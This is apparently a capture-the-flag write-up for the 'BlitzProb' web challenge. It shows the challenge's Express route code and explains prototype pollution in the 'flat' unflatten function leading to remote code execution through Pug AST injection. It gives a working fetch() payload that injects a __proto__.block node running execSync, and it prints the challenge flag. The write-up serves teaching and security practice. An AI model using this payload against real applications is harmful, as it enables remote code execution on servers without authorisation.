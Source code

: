```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a Prototype Pollution to RCE via AST Injection. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the function "unflatten" is called after receiving a post request and on a successful if   the "pug.compile" function. The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. To exploit this, we first need to trigger the “unflatten” function with our payload and then the “pug.compile” function so that the server runs our payload.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the static directory of the web server. After visiting `static/js/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶
